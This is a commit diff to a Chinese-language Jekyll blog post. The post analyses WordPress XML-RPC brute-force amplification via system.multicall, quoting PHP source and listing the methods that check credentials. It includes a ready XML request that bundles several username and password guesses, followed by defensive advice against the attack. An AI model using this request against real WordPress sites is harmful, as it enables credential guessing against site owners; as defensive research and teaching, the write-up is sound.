

Before and after one commit to huntpig/rickgray.github.io, a Jekyll site: the page built from _posts/2015-10-09-wordpress-xmlrpc-brute-force-in-one-request.md, in a window 1280 px wide and 900 px high, scrolled down 3279 px. Shown: the whole window, without its empty margins (196-1083 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 4053 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update "WordPress 利用xmlrpc中的system.multicall接口进行快速爆破"

````diff
--- a/_posts/2015-10-09-wordpress-xmlrpc-brute-force-in-one-request.md
+++ b/_posts/2015-10-09-wordpress-xmlrpc-brute-force-in-one-request.md
@@ -1,25 +1,27 @@
 ---
 layout: post
-title: "WordPress 利用 system.multicall RPC进行快速爆破"
-tags: [security, web]
+title: "利用 WordPress XMLRPC 高效爆破 原理分析"
+tags: [web, security]
 ---
 
-xmlrpc 是 WordPress 中进行远程调用的接口，而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日 [SUCURI](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html) 发布文章介绍了利用 xmlrpc 调用接口中的 `system.multicall` 来提高爆破效率，使得成千上万次的帐号密码组合尝试能在一次请求完成，在一定程度上能够躲避日志的检测。
+xmlrpc 是 WordPress 中进行远程调用的接口，而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日 [SUCURI](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html) 发布文章介绍了如何利用 xmlrpc 调用接口中的 `system.multicall` 来提高爆破效率，使得成千上万次的帐号密码组合尝试能在一次请求完成，极大的压缩请求次数，在一定程度上能够躲避日志的检测。
+
+### 一、原理分析
 
 WordPress 中关于 xmlrpc 服务的定义代码主要位于 `wp-includes/class-IXR.php` 和 `wp-includes/class-wp-xmlrpc-server.php` 中。基类 IXR_Server 中定义了三个内置的调用方法，分别为 `system.getCapabilities`，`system.listMethods` 和 `system.multicall`，其调用映射位于 `IXR_Server` 基类定义中：
 
-{% highlight php %}
+``` php
 function setCallbacks()
 {
     $this->callbacks['system.getCapabilities'] = 'this:getCapabilities';
     $this->callbacks['system.listMethods'] = 'this:listMethods';
     $this->callbacks['system.multicall'] = 'this:multiCall';
 }
-{% endhighlight %}
+```
 
 而基类在初始化时，调用 setCallbacks() 绑定了调用映射关系：
 
-{% highlight php %}
+``` php
 function __construct( $callbacks = false, $data = false, $wait = false )
 {
     $this->setCapabilities();
@@ -31,11 +33,11 @@
         $this->serve($data);
     }
 }
-{% endhighlight %}
+```
 
 再来看看 `system.multicall` 对应的处理函数：
 
-{% highlight php %}
+``` php
 function multiCall($methodcalls)
 {
     // See http://www.xmlrpc.com/discuss/msgReader$1208
@@ -59,7 +61,7 @@
     }
     return $return;
 }
-{% endhighlight %}
+```
 
 可以从代码中看出，程序会解析请求传递的 XML，遍历多重调用中的每一个接口调用请求，并会将最终有调用的结果合在一起返回给请求端。
 
@@ -67,79 +69,45 @@
 
 通过阅读 WordPress 中 xmlrpc 相关处理的代码，能大量的 xmlrpc 调用都验证了用户名和密码：
 
-{% highlight php %}
+``` php
     if ( !$user = $this->login($username, $password) )
         return $this->error;
-{% endhighlight %}
+```
 
 通过搜索上述登录验证代码可以得到所有能够用来进行爆破的调用方法列表如下：
 
-    wp.getUsersBlogs, wp.newPost, wp.editPost,
-    wp.deletePost, wp.getPost, wp.getPosts,
-    wp.newTerm, wp.editTerm, wp.deleteTerm,
-    wp.getTerm, wp.getTerms, wp.getTaxonomy,
-    wp.getTaxonomies, wp.getUser, wp.getUsers,
-    wp.getProfile, wp.editProfile, wp.getPage,
-    wp.getPages, wp.newPage, wp.deletePage,
-    wp.editPage, wp.getPageList, wp.getAuthors,
-    wp.getTags, wp.newCategory, wp.deleteCategory,
-    wp.suggestCategories, wp.getComment, wp.getComments,
-    wp.deleteComment, wp.editComment, wp.newComment,
-    wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList,
-    wp.getPageStatusList, wp.getPageTemplates, wp.getOptions,
-    wp.setOptions, wp.getMediaItem, wp.getMediaLibrary,
-    wp.getPostFormats, wp.getPostType, wp.getPostTypes,
-    wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs,
-    blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts,
-    blogger.newPost, blogger.editPost, blogger.deletePost,
-    mw.newPost, mw.editPost, mw.getPost,
-    mw.getRecentPosts, mw.getCategories, mw.newMediaObject,
-    mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories
+    wp.getUsersBlogs, wp.newPost, wp.editPost, wp.deletePost, wp.getPost, wp.getPosts, wp.newTerm, wp.editTerm, wp.deleteTerm, wp.getTerm, wp.getTerms, wp.getTaxonomy, wp.getTaxonomies, wp.getUser, wp.getUsers, wp.getProfile, wp.editProfile, wp.getPage, wp.getPages, wp.newPage, wp.deletePage, wp.editPage, wp.getPageList, wp.getAuthors, wp.getTags, wp.newCategory, wp.deleteCategory, wp.suggestCategories, wp.getComment, wp.getComments, wp.deleteComment, wp.editComment, wp.newComment, wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList, wp.getPageStatusList, wp.getPageTemplates, wp.getOptions, wp.setOptions, wp.getMediaItem, wp.getMediaLibrary, wp.getPostFormats, wp.getPostType, wp.getPostTypes, wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs, blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts, blogger.newPost, blogger.editPost, blogger.deletePost, mw.newPost, mw.editPost, mw.getPost, mw.getRecentPosts, mw.getCategories, mw.newMediaObject, mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories
 
 这里是用参数传递最少获取信息最直接的 `wp.getUsersBlogs` 进行测试，将两次帐号密码尝试包含在同一次请求里，构造 XML 请求内容为：
 
-{% highlight xml %}
+``` xml
 <methodCall>
   <methodName>system.multicall</methodName>
   <params><param>
     <value><array><data>
-
       <value><struct>
-        <member>
-          <name>methodName</name>
-          <value><string>wp.getUsersBlogs</string></value>
-        </member>
-        <member>
-          <name>params</name>
-          <value><array><data>
-            <value><string>admin</string></value>
-            <value><string>admin888</string></value>
-          </data></array></value>
-        </member>
+        <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
+        <member><name>params</name><value><array><data>
+          <value><string>admin</string></value>
+          <value><string>admin888</string></value>
+        </data></array></value></member>
       </struct></value>
 
       <value><struct>
-        <member>
-          <name>methodName</name>
-          <value><string>wp.getUsersBlogs</string></value>
-        </member>
-        <member>
-          <name>params</name>
-          <value><array><data>
-            <value><string>guest</string></value>
-            <value><string>test</string></value>
-          </data></array></value>
-        </member>
+        <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
+        <member><name>params</name><value><array><data>
+          <value><string>guest</string></value>
+          <value><string>test</string></value>
+        </data></array></value></member>
       </struct></value>
-
     </data></array></value>
   </param></params>
 </methodCall>
-{% endhighlight %}
+```
 
 将上面包含两个子调用的 XML 请求发送至 xmlrpc 服务端入口，若目标开启了 xmlrpc 服务会返回类似如下的信息：
 
-{% highlight xml %}
+``` xml
 <?xml version="1.0" encoding="UTF-8"?>
 <methodResponse>
   <params>
@@ -166,12 +134,21 @@
     </param>
   </params>
 </methodResponse>
-{% endhighlight %}
+```
 
 从结果中可以看到在同一次请求里面处理了两种帐号密码组合，并以集中形式将结果返回，通过该种方式可以极大地提高帐号爆破效率。
 
-当然了，这里不仅要讨论如何进行攻击还要考虑如何去防御这种情况。最直接的方式就是直接关闭 xmlrpc 功能（当然了也可以直接删除xmlrpc.php文件），但是 WordPress 并没有在后台提供关闭 xmlrpc 的功能，但是站长用户可以通过插件或者编码的方式来禁用。(插件可以使用 [Disable XML-RPC](https://wordpress.org/plugins/disable-xml-rpc/)）
+### 二、防护建议
+
+最新版 WordPress(4.3.1) 中仍存在该问题。多重调用（multicall）属于 xmlrpc 的标准，为了防止攻击者利用此点对网站发起爆破攻击，给出以下防护建议：
+
+1. 通过配置 Apache、Nginx 等 Web 服务器来限制 xmlrpc.php 文件的访问;
+2. 在不影响站点运行的情况下可以直接删除 xmlrpc.php 文件;
+3. 从官方插件库中安装 [Disable XML-RPC](https://wordpress.org/plugins/disable-xml-rpc/) 并启用;
+4. 添加代码 `add_filter('xmlrpc_enabled', '__return_false');` 至 WordPress 配置文件 `wp-config.php`;
 
 ### 参考链接
 
 * [https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)
+* [https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/](https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/)
+* [http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html](http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html)
````
